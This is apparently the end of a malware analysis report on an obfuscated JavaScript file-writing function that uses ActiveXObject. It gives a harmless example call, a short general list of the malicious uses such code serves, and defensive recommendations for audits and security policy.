### Potential Malicious Uses
This code pattern is commonly associated with:
- Malware installation
- Downloading and executing additional malicious files
- Installing backdoors
- Deploying ransomware payloads
- Installing spyware or unwanted software
- Creating persistent threats

## Example Usage
The code could be used as follows:
```javascript
writeFile("C:/something.txt", "Hello World");
// Creates or overwrites a file at C:/something.txt with content "Hello World"
```

## Conclusion
This code implementation represents a potentially dangerous file system operation tool. The extensive obfuscation techniques and hidden operations suggest malicious intent rather than legitimate software functionality. The code's ability to write files without user awareness, combined with its deliberate complexity, makes it a typical component of malware operations.

## Recommendations
1. Monitor for similar code patterns in security audits
2. Implement file operation restrictions in security policies
3. Use modern, secure file operation methods instead of ActiveXObject
4. Require user permission for file system operations
5. Maintain transparent, readable code for legitimate file operations


